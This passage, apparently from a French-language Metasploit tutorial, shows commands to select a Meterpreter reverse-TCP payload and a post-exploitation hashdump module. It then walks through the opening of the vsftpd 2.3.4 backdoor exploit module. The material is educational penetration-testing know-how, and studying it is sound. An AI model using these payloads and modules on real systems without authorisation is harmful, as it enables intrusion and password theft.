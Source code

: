 ```bash
show payloads
```

Puis :

```bash
set PAYLOAD linux/x86/meterpreter/reverse_tcp
```

### 4️⃣ `post`

Utilisé après une session active (ex : extraction de mots de passe, mouvement latéral).

```bash
use post/linux/gather/hashdump
```

> 🧠 **Important** : ces modules peuvent être utilisés manuellement ou scriptés dans des automatisations (chapitre 5).

---

## 3. Étude de cas : analyse du module `exploit/unix/ftp/vsftpd_234_backdoor`

### 📂 Chemin :

```bash
/usr/share/metasploit-framework/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
```

Ouvrez le fichier avec votre éditeur préféré (ex : nano, vim, code) :

```bash
sudo nano /usr/share/metasploit-framework/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
```

### 🔍 Analyse ligne par ligne (extrait simplifié)

```ruby
class MetasploitModule < Msf::Exploit::Remote
```

Ce module hérite de la classe `Msf::Exploit::Remote`, ce qui en fait un **exploit réseau**.

```ruby
def initialize(info = {})
  super(update_info(info,
    'Name'        => 'vsftpd 2.3.4 Backdoor Command Execution',
    'Description' => %q{
      This module exploits a malicious backdoor that was added to the VSFTPD download archive.
    },
    'Author'      => ['hdm'],
    'Payload'     => {'Compat' => {'PayloadType' => 'cmd_interact', 'RequiredCmd' => 'telnet'}},
    'Platform'    => 'unix',
    'Targets'     => [['Automatic', {}]],
    'DefaultTarget' => 0))
```
